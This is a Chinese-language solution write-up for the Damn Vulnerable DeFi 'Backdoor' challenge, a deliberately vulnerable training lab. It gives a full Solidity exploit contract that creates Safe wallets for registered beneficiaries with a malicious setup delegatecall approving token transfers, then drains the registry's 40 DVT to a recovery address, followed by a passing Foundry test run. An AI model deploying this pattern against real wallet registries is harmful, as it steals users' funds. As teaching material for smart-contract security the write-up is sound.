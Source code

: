 ## 题目 [Backdoor](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/backdoor)

团队中有人部署了一个 Safe 钱包注册表，以激励团队成员创建更安全的钱包。当团队中的某人部署并注册一个钱包时，他们可以获得 10 个 DVT 代币。  

该注册表与合法的 Safe Proxy 工厂紧密集成，并且包含严格的安全检查。  

目前有四个人注册为受益人：Alice、Bob、Charlie 和 David。注册表中有 40 个 DVT 代币余额，待分配给他们。  

你的任务是揭示该注册表中的漏洞，救出所有资金，并将其存入指定的恢复账户。需要在一次交易中完成。  

要求：
1. 在一笔交易中完成。
2. 四个收益人都注册了一个钱包。
3. 四个地址不再是收益人。
4. 恢复地址有 40 个 DVT。

## 题解
利用 Gnosis Safe 的代理合约在创建过程中的漏洞，从而授权 DVT 代币的转出。  
对每个受益人（4人）构造 Safe 初始化数据 _initializer，该数据包含：
- 受益人作为 Safe 合约的所有者。
- 交易确认阈值为 1，即只需要一个签名。
- 调用攻击合约的 delegateApprove 函数，从而授权代币转出。

POC:
``` solidity
contract BackdoorExploit {
    address private immutable singletonCopy;
    address private immutable walletFactory;
    address private immutable walletRegistry;
    DamnValuableToken private immutable dvt;
    address recovery;

    constructor(
        address _masterCopy,
        address _walletFactory,
        address _registry,
        address _token,
        address _recovery
    ) {
        singletonCopy = _masterCopy;
        walletFactory = _walletFactory;
        walletRegistry = _registry;
        dvt = DamnValuableToken(_token);
        recovery = _recovery;
    }

    function delegateApprove(address _spender) external {
        dvt.approve(_spender, 10 ether);
    }

    function attack(address[] memory _beneficiaries) external {
        // For every registered user we'll create a wallet
        for (uint256 i = 0; i < 4; i++) {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = _beneficiaries[i];

            // Create the data that will be passed to the proxyCreated function on WalletRegistry
            // The parameters correspond to the GnosisSafe::setup() contract
            bytes memory _initializer = abi.encodeWithSelector(
                Safe.setup.selector, // Selector for the setup() function call
                beneficiary, // _owners =>  List of Safe owners.
                1, // _threshold =>  Number of required confirmations for a Safe transaction.
                address(this), //  to => Contract address for optional delegate call.
                abi.encodeWithSignature(
                    "delegateApprove(address)",
                    address(this)
                ), // data =>  Data payload for optional delegate call.
                address(0), //  fallbackHandler =>  Handler for fallback calls to this contract
                0, //  paymentToken =>  Token that should be used for the payment (0 is ETH)
                0, // payment => Value that should be paid
                0 //  paymentReceiver => Adddress that should receive the payment (or 0 if tx.origin)
            );

            // Create new proxies on behalf of other users
            SafeProxy _newProxy = SafeProxyFactory(walletFactory)
                .createProxyWithCallback(
                    singletonCopy, // _singleton => Address of singleton contract.
                    _initializer, // initializer => Payload for message call sent to new proxy contract.
                    i, // saltNonce => Nonce that will be used to generate the salt to calculate the address of the new proxy contract.
                    IProxyCreationCallback(walletRegistry) // callback => Cast walletRegistry to IProxyCreationCallback
                );
            //Transfer to caller
            dvt.transferFrom(address(_newProxy), recovery, 10 ether);
        }
    }
}
```
运行测试：
```
forge test --mp test/backdoor/Backdoor.t.sol
```
测试结果：
```
Ran 2 tests for test/backdoor/Backdoor.t.sol:BackdoorChallenge
[PASS] test_assertInitialState() (gas: 56132)
[PASS] test_backdoor() (gas: 1736055)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.91ms (2.40ms CPU time)
```